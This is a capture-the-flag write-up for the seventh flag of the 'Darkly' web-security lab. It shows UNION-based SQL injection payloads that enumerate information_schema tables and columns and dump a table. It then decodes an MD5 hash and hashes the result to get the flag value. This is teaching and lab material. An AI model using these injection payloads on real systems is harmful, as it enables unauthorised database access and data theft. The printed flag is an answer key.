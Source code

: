 <h1>Seventh flag of Darkly</h1>

<ol>

<li>Navigate to the page http://192.168.1.100/index.php?page=searchimg</li>
<li>Now that we are on the page here we can try for simple sql Injection by passing 1 , 1=1 or even passing 1 or 1 = 1 In doing this we see that data is being returned from the database so we try to get data from the tables in the database using SQL injection</li>
<li>Same as the previous flag we are going to try and get table name of the table here since we can see results of the sql query inside the application response</li>
<h3>-1  UNION SELECT  table_name, 1 FROM information_schema.tables where table_schema = database() </h3>

<p>here we got back 'list_images'</p>

<li> There after we are going to get the columns again too</li>
<h3>-1  UNION SELECT  column_name, 1 FROM information_schema.columns where table_schema = database() </h3>

<p>in our results we found this:</p>

ID: -1 union select null, concat (id, url, title, comment) from list_images 
Title: 5borntosec.ddns.net/images.pngHack me ?If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : 

<li>When we decode the given data we get the following string --> albatroz </li>
<li>sha 256 calculator result after passing in albatroz -->   f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188 </li>
</ol>

Well done you have found the second flag!

